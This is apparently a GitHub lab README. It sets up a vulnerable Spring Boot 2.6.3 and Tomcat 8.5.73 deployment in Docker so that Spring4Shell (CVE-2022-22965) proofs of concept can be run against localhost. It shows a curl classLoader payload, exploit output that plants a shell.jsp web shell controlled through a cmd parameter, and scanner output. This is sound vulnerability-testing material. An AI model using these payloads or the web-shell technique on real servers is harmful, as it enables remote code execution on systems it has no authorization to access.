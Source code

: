 # Lab 1: Vulnerable deployment

Lab to test poc exploit on vulnerable spring boot version 2.6.3 deployed on fixed tomcat version 8.5.73 with open-jdk 11
```
Tomcat version: 8.5.73
openJDK: 11
Spring Boot: 2.6.3
```

## How to deploy?

```
$ docker build . -t sp4s-tomcat8.5.73-jdk11-spb2.6.3 && docker run -p 8000:8080 sp4s-tomcat8.5.73-jdk11-spb2.6.3
```

You can access the application at http://localhost:8000/helloworld/greeting

## Test if application is vulnerable

### POC 1: Using curl 

Source: https://twitter.com/RandoriAttack/status/1509298490106593283

If application is vulnerable it will return HTTP 400 code.

Original POC
```
$ curl host:port/path?class.module.classLoader.URLs%5B0%5D=0
```

Since our lab application endpoint accepts data from POST request we will send payload in body

```bash
$ curl -i http://localhost:8000/helloworld/greeting -d class.module.classLoader.URLs%5B0%5D=0                               130 ⨯
HTTP/1.1 400 
Content-Type: application/json
Date: Sun, 17 Apr 2022 20:32:43 GMT
Connection: close
Content-Length: 110

{"timestamp":"2022-04-17T20:32:43.423+00:00","status":400,"error":"Bad Request","path":"/helloworld/greeting"
```

400 response indicates that application is vulnerable but is it exploitable? let's try to exploit it using another exploit poc.


### POC 2

https://github.com/BobTheShoplifter/Spring4Shell-POC
```bash
$ python exploit.py --url http://localhost:8000/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://localhost:8000/shell.jsp?cmd=id
```

It gives 200 OK response which mease exploit is successful to confirm go to http://localhost:8000/shell.jsp?cmd=id so now
it is confirmed that spring boot version 2.6.3 running on tomcat version 8.5.73 with jdk11 is vulnerable.


let's try another poc

### POC 3
https://github.com/fullhunt/spring4shell-scan

```bash
$ python spring4shell-scan.py --url http://localhost:8000/helloworld/greeting
[•] CVE-2022-22965 - Spring4Shell RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] URL: http://localhost:8000/helloworld/greeting
[%] Checking for Spring4Shell RCE CVE-2022-22965.
[•] URL: http://localhost:8000/helloworld/greeting | PAYLOAD: class.module.classLoader[ib1153g]=ib1153g
[!!!] Target Affected (CVE-2022-22965)
[!] Total Vulnerable Hosts: 1
[!] http://localhost:8000/helloworld/greeting
                                             
```

